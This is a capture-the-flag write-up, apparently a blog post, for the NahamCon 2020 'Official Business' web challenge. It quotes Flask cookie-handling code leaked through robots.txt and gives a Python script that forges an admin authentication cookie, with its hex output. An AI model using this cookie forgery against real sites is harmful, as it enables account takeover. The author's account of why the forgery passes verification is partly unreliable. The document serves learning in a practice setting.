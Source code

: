 # NahamCon CTF 2020 - Official Business

- Resource: NahamCon CTF 2020
- CTF Name: Official Business
- Points: 125
- Category: Web

Note::: This CTF is expired and no longer live so flags will be posted.



## Flag1
 __Hint__ 
 1. Are you here on official business? Prove it.  


 __Acquired By:__
### Step 1. General Look Around
When first looking at this page there is a login form that mentions me needing to login as admin. ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/xuwmmep0lutib7i0gzue.png) However, if I try and login I get a 403 page. I did try to check if the input would respond to non-words like `'":;.?[]{}` and the like, but nothing changed. I also went down the path of trying to resend the data in the request to have an extra parameter of "auth=admin", "admin=True", and a few others along this with variation, but no luck.

From here I decided to see if there was and extra pages like `/admin` or `robots.txt` and though admin was not there robots.txt was and it was full of code.




### Step 2. How is this information helpful?
The robots.txt file is there for web spiders like Google and other search engines and it tells the spiders that some assets are out of scope and they need to leave them alone when indexing a site for their search engine. Though this page is generally only accessible by spiders if it is accessible by a user it can be a treasure trove of useful information.

In this case, the `robots.txt` file is full of code that appears to be the code for how the cookie is set for the admin on login... hmmm ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/4engsndxo824b3qwg4km.png)

__After reviewing the code a specific line jumps out at me:__
```
def login()

    user = request.form.get("user", "")
    password = request.form.get("password", "")

    if (
        user != "hacker"
        or hashlib.sha512(bytes(password, "ascii")).digest()
        != b"hackshackshackshackshackshackshackshackshackshackshackshackshack"
    ):
        return abort(403)
    return do_login(user, password, True)
```

Oh la la!! If user is not "hacker" or the hash for the password is not b"hackshackshackshackshackshackshackshackshackshackshackshackshack" it will return the 403 page. At this point I tried to login as "hacker", but that didn't work. I tried "hacker" and password of "hackshackshackshackshackshackshackshackshackshackshackshackshack", and a few variations of this, but nothing worked.


__A section that pops out to me is the do_login.__
```
def do_login(user, password, admin):

    cookie = {"user": user, "password": password, "admin": admin}
    cookie["digest"] = hashlib.sha512(
        app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
    ).hexdigest()

    response = make_response(redirect("/"))
    response.set_cookie("auth", binascii.hexlify(json.dumps(cookie).encode("utf8")))

    return response
```

__So what is the do_login() doing?__
The `def do_login(user, password, admin)` is accepting the "user, password, admin" as parameters.
Then the line `cookie = {"user": user, "password": password, "admin": admin}` takes them and sets them in an array called "cookie".

Now it creates a `cookie["digest"]` that will be using the hashlib to make a sha512 hash of the app.secret_key concatenated with the `bytes(json.dumps(cookie, sort_keys=True), "ascii")`. It then uses `.hexdigest()` to return a hex string representing the hash.

Now that the cookies are made it then sets a redirect of '/' with the `response = make_response(redirect("/"))` and sets the cookie as 'auth' in the browser with `    response.set_cookie("auth", binascii.hexlify(json.dumps(cookie).encode("utf8")))` which are both returned.



__It's also interesting to notice the load_cookie section:__
```
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

Looking at the code above I notice a few things.. When the page is loaded the code will make a request for the cookie with `auth = request.cookies.get("auth")`. If the 'auth' cookie is present it will then enter a try/except block where it will "unhexlify" the cookie and decode it. From here it will pop the "digest" off of the decoded cookie and that digest is compared with the sha512 of the secret_key + bytes(json.dumps(cookie, sort_keys=True). 
However, the secret_key is used wrong here and basically doesn't matter because in do_login the value for cookie["digest"] is obtained by concatenating the secret_key to the rest of the keys from the cookie and this will allow abuse by crafting my own cookie.












### Step 4. The Exploit
Because of the wrong use of the secrect_key in the load_cookie I can make a cookie with any values and it will pass the verification from load_cookie. 

To make my own cookie I made a simple Python script as follows:
```
import binascii
import hashlib
import json

cookie = {"user": 'hacker', "password": 'password', "admin": True}
cookie["digest"] = 'hackshackshackshackshackshackshackshackshackshackshackshackshack'
print(binascii.hexlify(json.dumps(cookie).encode("utf8")))
```

This script will make a cookie from the `"user": 'hacker', "password": 'password', "admin": True` information, creates a cookie digest with the 'hackshackshackshackshackshackshackshackshackshackshackshackshack', and then print a hexlify of the cookie with the digest.

In this case I created the cookie value of: `b'7b2275736572223a20226861636b6572222c202270617373776f7264223a202270617373776f7264222c202261646d696e223a20747275652c2022646967657374223a20226861636b736861636b736861636b736861636b736861636b736861636b736861636b736861636b736861636b736861636b736861636b736861636b736861636b227d'`




### Step 5. The Flag
Now that I have a cookie I can go to the browser and add it to the main page. Then on refresh the flag appears.![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8bekc9oqz5ae0zqp6cof.png)




## Learned
This CTF taught me about reading over the code slowly to follow the flow of data and really understand what each line is doing and how this code created a cookie but lacked proper verification.



<hr>

Happy Hacking
![](https://media.giphy.com/media/l3vRmVv5P01I5NDAA/giphy.gif)

### Resources
1. https://docs.python.org/2/library/hashlib.html
2. https://www.pythoncentral.io/hashing-strings-with-python/
3. https://docs.python.org/3/library/hashlib.html
4. https://www.php.net/manual/en/function.isset.php

###### Please Note: that I am still learning and if something that I have stated is incorrect please let me know. I would love to learn more about what I may not understand fully.
